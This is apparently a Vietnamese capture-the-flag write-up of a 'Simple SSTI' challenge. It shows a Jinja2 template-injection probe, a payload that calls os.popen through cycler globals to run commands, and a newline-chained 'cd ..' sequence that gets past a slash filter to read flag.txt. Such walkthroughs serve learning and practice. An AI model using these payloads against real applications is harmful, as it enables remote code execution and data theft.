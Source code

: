 - tiêu đề : Simple SSTI 
- nội dung : RCE 

- uhm bài này thì mình view xíu cũng ít chỗ attack nên thử xíu tìm cái SSTI như đề :> 
{{6*8}}

![Alt text](<../image/39.1.png>) 

- rồi tra thôi này là jinja2 python ( tự xây payload cũng căng đét ậy :v mình chưa hiểu sâu nên vẫn tìm chít sít ) 
{{ cycler.__init__.__globals__.os.popen('payload').read() }}

![Alt text](<../image/39.2.png>)  

- uhm thử lúc thì mình tưởng payload sai hóa ra là nó cấm dấu / 
- nên mình dùng payload là cd .. %0a cd .. %0a cd .. %0a cat flag.txt 

![Alt text](<../image/39.3.png>) 

- pem và lụm cờ th 

#hackerga2101: 

